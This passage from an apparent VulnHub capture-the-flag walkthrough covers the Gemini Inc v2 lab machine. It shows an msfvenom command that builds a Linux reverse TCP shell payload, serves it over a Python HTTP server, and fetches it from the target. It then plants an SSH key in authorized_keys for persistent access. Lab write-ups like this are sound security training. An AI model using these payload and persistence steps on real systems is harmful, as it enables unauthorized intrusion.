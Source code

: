 ```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.128 LPORT=4444 -f elf -o rev
No platform was selected, choosing Msf::Module::Platform::Linux from the payload
No Arch selected, selecting Arch: x64 from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 74 bytes
Final size of elf file: 194 bytes
Saved as: rev
```

```
# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
192.168.10.130 - - [03/Jun/2018 14:06:42] "GET /rev HTTP/1.1" 200 -
```

![0.eglwibtto8l](/assets/images/posts/gemini-inc-v2-walkthrough/0.eglwibtto8l.png)

Yes, we got shell. Let's do one better by copying the RSA public key we control to `/home/gemni1/.ssh/authorized_keys` and logging in with SSH.

![0.o9rv7jkjpn](/assets/images/posts/gemini-inc-v2-walkthrough/0.o9rv7jkjpn.png)

There you go.

## Privilege Escalation

During enumeration of `gemini1`'s account, I discover `redis` is running on the host as `root`.

![0.uz31kpsrd4](/assets/images/posts/gemini-inc-v2-walkthrough/0.uz31kpsrd4.png)


[1]: https://scriptkidd1e.wordpress.com/2018/04/29/gemini-inc-v2-vulnerable-machine/
[2]: https://twitter.com/@sec_9emin1
[3]: https://www.vulnhub.com